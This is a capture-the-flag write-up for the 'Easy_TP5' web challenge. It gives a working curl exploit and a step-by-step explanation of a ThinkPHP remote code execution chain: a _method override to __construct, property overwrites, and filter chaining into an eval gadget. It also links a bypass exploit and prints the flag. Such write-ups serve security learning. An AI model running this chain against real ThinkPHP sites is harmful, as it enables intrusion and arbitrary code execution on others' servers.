 # Easy_TP5

A web challenge with thingphp framework ended up having 11 solves

## Solution

Final exploit:

```
curl --data "path=PD9waHAgZmlsZV9wdXRfY29udGVudHMoJ3N1cHBwLnBocCcsJ3N1cGVyIGd1ZXNzc3NlcnMnKTsgPz4=&_method=__construct&filter[]=set_error_handler&filter[]=self::path&filter[]=base64_decode&filter[]=\think\view\driver\Php::Display&method=GET" "http://101.32.184.39/?s=captcha&g=implode"
```

This exploit create file names `suppp.php` with `super guessssers` inside it.

## explanation

## First step
Well The challenge had many steps so i just explain how the exploit works. Everything starts from this function in `Request.php`

```
public function method($method = false)
    {
        if (true === $method) {
            return IS_CLI ? 'GET' : (isset($this->server['REQUEST_METHOD']) ? $this->server['REQUEST_METHOD'] : $_SERVER['REQUEST_METHOD']);
        } elseif (!$this->method) {
            if (isset($_POST[Config::get('var_method')])) {
                $this->method = strtoupper($_POST[Config::get('var_method')]);
                $this->{$this->method}($_POST);
            } elseif (isset($_SERVER['HTTP_X_HTTP_METHOD_OVERRIDE'])) {
                $this->method = strtoupper($_SERVER['HTTP_X_HTTP_METHOD_OVERRIDE']);
            } else {
                $this->method = IS_CLI ? 'GET' : (isset($this->server['REQUEST_METHOD']) ? $this->server['REQUEST_METHOD'] : $_SERVER['REQUEST_METHOD']);
            }
        }
        return $this->method;
    }

```

And this part

```
if (isset($_POST[Config::get('var_method')])) {
      $this->method = strtoupper($_POST[Config::get('var_method')]);
      $this->{$this->method}($_POST);
}
```

Accoring to `config.php` the `var_method` is set to `_method` it means that we can call any method with `$_POST` as argument.

In our exploit, The `_method`'s value in post parameters is ``__construct``.

## Second step

`__constructor` method of `Request.php` is

```
public function __construct($options = []){
        foreach ($options as $name => $item) {
            if (property_exists($this, $name)) {
                $this->$name = $item;
            }
        }
        if (is_null($this->filter)) {
            $this->filter = Config::get('default_filter');
        }
}
```

In the exploit, The `__construct` method is called with `$_POST` as arg so `$options` here is `$_POST`.

So we can overwrite any object's property to arbitrary value.

In the exploit we overwrite

```
path => "payload"
_method => "__construct"
filter => ["set_error_handler","self::path","base64_decode","\think\view\driver\Php::Display"]
method => "GET"
```

## Third step

Now the code continues until this code in `input` method

```
if (is_array($data)) {
     array_walk_recursive($data, [$this, 'filterValue'], $filter);
     reset($data);
} 
```

where `array_walk_recursive` calls `filterValue` method with following args in first call.

```
&$value   -> implode
$key      -> key of array - not important
$filters  -> ["set_error_handler","self::path","base64_decode","\think\view\driver\Php::Display"]

``` 

In `filterValue` we have

```
private function filterValue(&$value, $key, $filters)
    {
        $default = array_pop($filters);
        foreach ($filters as $filter) {
            if (is_callable($filter)) {
                $value = call_user_func($filter, $value);
            } elseif (is_scalar($value)) {
                if (strpos($filter, '/')) {
                    if (!preg_match($filter, $value)) {          
                        $value = $default;
                        break;
                    }
                } elseif (!empty($filter)) {
                    $value = filter_var($value, is_int($filter) ? $filter : filter_id($filter));
                    if (false === $value) {
                        $value = $default;
                        break;
                    }
                }
            }
        }
        return $this->filterExp($value);
    }
```

This part is important:

```
foreach ($filters as $filter) {
            if (is_callable($filter)) {
                $value = call_user_func($filter, $value);
            }
```

It calls each filter, with previous function's return value. We can call arbitrary function with arbitrary arg But it's so limited with disabled functions and arguments count limitation. So now we need to chains function ( ROP :P ).

Our main gadget is `display` method in `think\view\driver\Php`.

Which is

```
 public function display($content, $data = [])
    {
        if (isset($data['content'])) {
            $__content__ = $content;
            extract($data, EXTR_OVERWRITE);
            eval('?>' . $__content__);
        } else {
            extract($data, EXTR_OVERWRITE);
            eval('?>' . $content);
        }
    }
```

Fortunately php supports calling non static methods ( with a warning ), But the framework has set `error_hander` to some function, so if we call non static method, we will face framework's error handler. So first we have to call `set_error_handler` with dummy function's name, here `implode`, to turn off framework's error handling. So here is my chain. 

```
function | argument ^ return value
1.
set_error_handler | "implode" ^ array
2.
self::path | The path property which we overwrited ^ base64 payload 
3.
base64_decode | base64 payload ^ decoded payload
4.
\think\view\driver\Php::Display | decoded payload

```

So now we had control over arguments, Then we used [this](https://github.com/mm0r1/exploits/blob/master/php7-backtrace-bypass/exploit.php) payload to execute system commands, and got flag.

Flag: <b>n1ctf{ab24ad523665a581da7fd54386895f51}</b>